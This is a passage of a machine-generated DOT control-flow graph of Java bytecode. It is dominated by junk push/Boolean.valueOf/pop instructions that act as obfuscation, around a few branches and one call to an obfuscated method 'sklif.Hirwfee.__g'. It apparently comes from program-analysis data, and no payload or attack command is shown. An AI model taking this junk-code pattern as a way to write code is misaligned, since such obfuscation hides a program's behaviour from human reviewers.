    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "ifnull push 1"
    "pop"->"ifnull push 1";
    "ifnull push 1"->"load.r r230";
    "load.r r230"->"ifnull push 1";
    "ifnull push 1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r $r303";
    "ifnonnull push 1"
    "load.r $r303"->"ifnonnull push 1";
    "ifnonnull push 1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push \"\"";
    "push \"\""->"store.r $r303";
    "store.r $r303"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"staticget <sklif.Hirwfee: sklif.Hirwfee instance>";
    "staticget <sklif.Hirwfee: sklif.Hirwfee instance>"->"load.r $r303";
    "load.r $r303"->"load.r r0";
    "virtualinvoke <sklif.Hirwfee: void __g(java.lang.String,java.lang.String)>"
    "load.r r0"->"virtualinvoke <sklif.Hirwfee: void __g(java.lang.String,java.lang.String)>";
    "virtualinvoke <sklif.Hirwfee: void __g(java.lang.String,java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto push 1"
    "pop"->"goto push 1";
    "goto push 1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "return"
    "pop"->"return";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
}
